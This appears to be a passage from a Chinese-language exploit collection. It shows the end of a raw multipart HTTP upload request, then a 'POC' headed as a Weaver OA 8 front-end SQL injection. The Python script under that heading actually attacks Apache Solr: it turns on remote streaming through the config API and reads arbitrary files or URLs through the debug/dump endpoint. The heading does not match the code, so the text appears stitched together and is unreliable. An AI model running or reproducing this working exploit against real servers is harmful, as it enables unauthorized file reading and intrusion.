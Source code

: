 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) 
Chrome/87.0.4280.141 Safari/537.36 
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8 
Referer: x.x.x.x 
Accept-Encoding: gzip, deflate 
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8 
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6 
Connection: close 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv 
Content-Length: 164

------WebKitFormBoundaryfcKRltGv 
Content-Disposition: form-data;  
Content-Type: image/avif 
------WebKitFormBoundaryfcKRltGv--
```

### 0x05 泛微 OA 8 前台 SQL 注入

POC

```
import requests
import json
import argparse

TIMEOUT = 20


def run(target: str, action: str):
    try:
        admin_url = target + "/solr/admin/cores?indexInfo=false&wt=json"
        response = requests.get(admin_url, verify=False, timeout=TIMEOUT)
        if response.status_code == 200 or "name" in response.text:
            data = json.loads(response.content)
            for i in data["status"]:
                key = data["status"][i]["name"]
                return attack(key, target, action)
    except Exception as e:
        error = "[-] {} run error:{}".format(target, str(e))
        raise RuntimeError(error)
    return None


def attack(core_name: str, target: str, action: str):
    session = requests.session()
    config_url = target + "/solr/" + core_name + "/config"
    json_data = {"set-property": {"requestDispatcher.requestParsers.enableRemoteStreaming": "true"}}
    response = session.post(config_url, data=json.dumps(json_data), timeout=TIMEOUT)
    if response and 200 != response.status_code: return None

    dump_url = target + "/solr/" + core_name + "/debug/dump?param=ContentStreams"
    dump_data = {"stream.url": action}
    response = session.post(dump_url, data=dump_data, timeout=TIMEOUT)
    if response is None:
        return None
    elif 200 == response.status_code:
        content = json.loads(response.text)
        return content['streams'][0]['stream']
    elif 500 == response.status_code:
        return response.text
    else:
        return None
